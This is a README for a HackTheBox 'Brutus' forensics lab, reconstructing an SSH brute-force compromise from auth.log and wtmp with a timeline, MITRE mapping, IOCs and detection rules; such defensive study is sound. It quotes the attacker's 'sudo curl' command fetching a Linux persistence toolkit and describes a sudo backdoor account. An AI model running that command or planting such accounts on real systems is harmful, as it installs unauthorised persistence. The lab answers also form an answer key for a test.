









# htb-brutus-ssh-forensics

**HackTheBox Sherlock | DFIR Lab | March 2026**

Full forensic investigation of a compromised Confluence server using only Unix authentication log artifacts — no EDR, no network capture, no endpoint agent. SSH brute force attack reconstructed end-to-end from `auth.log` and `wtmp`.

---

## 🧪 Lab Context

This investigation was conducted in a simulated environment using the HackTheBox Brutus Sherlock lab. The scenario replicates a real-world SSH brute force attack and post-compromise activity on a Confluence server, designed for forensic analysis and detection engineering practice.

---

## 🔥 Highlights

- Identified attacker IP from 165+ failed SSH login attempts using log frequency analysis
- Distinguished automated brute force session from manual interactive session using session timing
- Traced full post-compromise chain: root access → backdoor account → sudo escalation → persistence toolkit download
- Correlated two separate log artifacts (`auth.log` + binary `wtmp`) to build a complete attack timeline
- Mapped all attacker actions to MITRE ATT&CK with full tactic and technique IDs
- Produced 6 detection rules (Elastic KQL, Splunk SPL, Sigma) covering every attack stage

---

## 🛠️ Tools Used

| Tool | Purpose |
|---|---|
| `grep` | Filter auth.log for specific event types — sshd, Accepted password, useradd |
| `sort` + `uniq -c` | IP frequency analysis to identify brute force source |
| `less` | Log navigation and pattern inspection |
| `utmp.py` | Parse binary wtmp artifact into human-readable session data |
| `last -f wtmp` | Alternative wtmp parsing for session timestamps |

**Raw command proof:**
```bash
# Identify attacker IP by failure frequency
grep sshd auth.log | grep -v pam_unix | grep -oP '\d{1,3}(\.\d{1,3}){3}' | sort | uniq -c | sort -rn

# Output:
170  65.2.161.68
  1  203.101.190.9
  1  172.31.35.28

# Confirm successful auth
grep sshd auth.log | grep "Accepted password" | grep 65.2.161.68

# Parse wtmp binary
python3 utmp.py wtmp

# Find session IDs
grep "session opened" auth.log | grep 65.2.161.68

# Find backdoor account creation
grep "useradd\|usermod" auth.log

# Find persistence download
grep "sudo.*COMMAND" auth.log | grep cyberjunkie
```

---

## 🧠 Detection Engineering Perspective

This investigation was translated into detection logic to identify similar attack patterns in SIEM environments. Rules were designed to detect:

- High-volume SSH failures from a single source IP
- Successful login following brute force attempts (EQL sequence)
- Root account usage directly over SSH
- Unauthorised local account creation on production servers
- Privilege escalation via sudo group modification
- Suspicious outbound tool downloads executed with elevated privileges

Full rules in Elastic KQL, Splunk SPL, and Sigma YAML format → [`docs/detection-rules.md`](./docs/detection-rules.md)

---

## 📸 Screenshots

### IP Frequency Analysis — Attacker Identified
> `grep + sort + uniq` revealing `65.2.161.68` with 165+ failed attempts — characteristic automated brute force volume.



### Failed Login Flood — auth.log
> auth.log entries showing the repeated failed password attempts from the attacker IP.



### Root Account Compromised — Accepted Password
> auth.log `Accepted password` event confirming root credentials obtained from `65.2.161.68`.



### Manual Session Timestamp — wtmp
> wtmp artifact parsed via `utmp.py` — interactive session established at 2024-03-06 06:32:45 UTC.



### Session 34 vs Session 37 — Automated vs Manual
> auth.log showing Session 34 (automated — opened/closed same second) and Session 37 (manual interactive).



### Backdoor Account Creation — cyberjunkie
> auth.log `useradd` and `usermod` entries confirming `cyberjunkie` created and added to sudo group.



### MITRE ATT&CK — T1136.001
> MITRE ATT&CK framework entry for Create Account: Local Account persistence technique.



### Session 37 Closed
> auth.log entry showing attacker's interactive root session closed at 06:37:24 UTC.



### Persistence Script Download — linper.sh
> sudo COMMAND log entry showing `cyberjunkie` downloading `linper.sh` via curl from GitHub.



---

## 🔬 Investigation Methodology

**Artifacts:** `auth.log` + `wtmp` (binary — parsed with `utmp.py`)

**Approach:** Systematic log traversal — establish brute force scope → isolate successful auth events → trace post-auth activity via session IDs and sudo logs → correlate with wtmp for timeline precision.

---

## 📋 Investigation Tasks & Findings

### Task 1 — Attacker IP Address

Three IPs returned from frequency analysis. `65.2.161.68` appeared **165 times** — overwhelmingly failed SSH attempts. Characteristic of automated brute force tooling (Hydra / Medusa).

| Finding | Value |
|---|---|
| **Attacker IP** | `65.2.161.68` |

---

### Task 2 — Compromised Account

Successful authentication confirmed for the **root** account. Session opened and closed within the same second — automated tool confirming credentials, not a human operator.

| Finding | Value |
|---|---|
| **Compromised Account** | `root` |

---

### Task 3 — Manual Login Timestamp (wtmp)

The first root login (Session 34) was automated. The `wtmp` binary artifact was parsed to identify when the **manual interactive session** was established. The 1-second difference between auth.log (`06:32:44`) and wtmp (`06:32:45`) reflects the system's processing sequence: password accepted → terminal session established.

| Finding | Value |
|---|---|
| **Manual Login Timestamp (UTC)** | `2024-03-06 06:32:45` |

---

### Task 4 — Attacker's SSH Session Number

Two root sessions visible from the attacker IP: **Session 34** and **Session 37**.

- **Session 34** — opened and closed within the same second → automated brute force confirmation
- **Session 37** — stable connection, no immediate disconnect → manual interactive session

| Finding | Value |
|---|---|
| **Attacker's Manual Session** | `Session 37` |

---

### Task 5 — Backdoor Account

New account `cyberjunkie` created and immediately added to the `sudo` group — granting full administrative privileges for persistent access independent of the root password.

| Finding | Value |
|---|---|
| **Backdoor Account** | `cyberjunkie` |

---

### Task 6 — MITRE ATT&CK Persistence Technique

| Finding | Value |
|---|---|
| **MITRE Technique** | `T1136.001 — Create Account: Local Account` |

---

### Task 7 — Session 37 End Time

| Finding | Value |
|---|---|
| **Session End (UTC)** | `2024-03-06 06:37:24` |
| **Session Duration** | ~4 minutes 39 seconds |

---

### Task 8 — Persistence Script Download

After the root session ended, the attacker logged back in as `cyberjunkie` and executed:

```bash
sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

`linper.sh` is the **Linux Persistence Toolkit** — installs multiple persistence mechanisms (cron jobs, SSH key injection, SUID binaries). Using `curl` (a pre-installed system binary) is a living-off-the-land technique that avoids process-based detections.

| Finding | Value |
|---|---|
| **Full Command** | `sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` |

---

## ⚔️ MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Reconnaissance | Active Scanning | T1595 |
| Initial Access | Brute Force: Password Guessing | T1110.001 |
| Execution | Command and Scripting Interpreter | T1059 |
| Persistence | Create Account: Local Account | T1136.001 |
| Privilege Escalation | Abuse Elevation Control: sudo | T1548.003 |
| Command & Control | Ingress Tool Transfer | T1105 |

---

## 🔴 Indicators of Compromise (IOCs)

| Indicator | Value |
|---|---|
| **Attacker IP** | `65.2.161.68` |
| **Target Service** | SSH (port 22) — Confluence server |
| **Compromised Account** | `root` |
| **Backdoor Account** | `cyberjunkie` (sudo group) |
| **Automated Session** | Session 34 (opened/closed same second) |
| **Manual Session** | Session 37 (06:32:45 – 06:37:24 UTC) |
| **Persistence Script** | `linper.sh` — Linux Persistence Toolkit |
| **Script URL** | `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` |
| **Download Method** | `sudo /usr/bin/curl <url>` |
| **MITRE Persistence** | T1136.001 |

---

## 🕐 Attack Timeline

| Time (UTC) | Event |
|---|---|
| Prior to 06:31 | SSH brute force from `65.2.161.68` — 165+ failed attempts against root |
| **06:31:33** | Brute force succeeds — root credentials obtained. Session 34 opened and closed within same second |
| **06:32:44** | Attacker manually authenticates as root — `Accepted password` recorded in auth.log |
| **06:32:45** | Interactive terminal established — Session 37 opened (wtmp artifact) |
| **06:32:xx** | Attacker creates `cyberjunkie` backdoor account — added to sudo group |
| **06:37:24** | Session 37 closed — attacker disconnects from root session |
| Post 06:37 | Attacker logs back in as `cyberjunkie` |
| Post 06:37 | `linper.sh` downloaded via `sudo curl` — multi-layer persistence installed |

---

## 🚨 Detection Rules

Rules derived directly from this investigation — covering every stage of the attack chain.
Full rules with Elastic KQL, Splunk SPL, and Sigma format: [`docs/detection-rules.md`](./docs/detection-rules.md)

| Rule | Technique | Severity |
|---|---|---|
| SSH High Volume Failures from Single IP | T1110.001 | Medium |
| SSH Failures Followed by Successful Login (EQL) | T1110.001 | High |
| Root Account SSH Login | T1078 | High |
| New Local User Account Created | T1136.001 | Medium |
| Account Added to sudo / wheel Group | T1548.003 | High |
| sudo curl / wget to External URL | T1105 | High |

---

## 🧠 Key Takeaways

- **auth.log is more than a brute force detector** — it records privilege escalation, account management, sudo usage, and command execution in detail
- **Session timing is a critical differentiator** — a session that opens and closes within the same second is a reliable automated tool indicator
- **wtmp and auth.log timestamps differ by design** — auth.log records password acceptance, wtmp records terminal establishment; the 1-second gap is expected
- **Backdoor accounts outlast the initial compromise** — even if root credentials are rotated, a sudo-privileged local account maintains full access
- **curl is a living-off-the-land technique** — using a pre-installed legitimate binary to download tools avoids triggering process-based detections

---

## 🔧 Defensive Recommendations

- **Disable root SSH login** — set `PermitRootLogin no` in `/etc/ssh/sshd_config`
- **Enforce key-based authentication** — disable password authentication for SSH entirely
- **Deploy Fail2Ban** — auto-block IPs after repeated failed login attempts
- **Monitor `useradd` / `usermod` events** — alert on new account creation and sudo group modifications
- **Alert on sudo COMMAND logs** — flag downloads via curl/wget executed with elevated privileges
- **Restrict outbound connections** — prevent unnecessary egress from internal servers to raw GitHub URLs

---

## 📁 Repository Structure

```
htb-brutus-ssh-forensics/
│
├── README.md                        ← This file
├── LICENSE
├── .gitignore
│
├── docs/                            ← Supporting analysis documents
│   ├── investigation-notes.md       ← Detailed task-by-task analysis notes
│   ├── mitre-mapping.md             ← Full MITRE ATT&CK technique breakdown
│   ├── detection-rules.md           ← Elastic KQL, Splunk SPL, Sigma rules
│   └── ioc-list.md                  ← Extracted IOCs for detection/blocking
│
└── screenshots/                     ← Evidence screenshots from auth.log + wtmp analysis
    ├── ip-frequency.png
    ├── failed-logins.png
    ├── root-compromise.png
    ├── wtmp-session.png
    ├── sessions.png
    ├── backdoor-account.png
    ├── mitre-t1136.png
    ├── session-end.png
    └── linper-download.png
```

> 📄 Full internship report with annotated screenshots: [`Brutus_Sherlock_Report.docx`](report/Brutus_Sherlock_Report.docx)
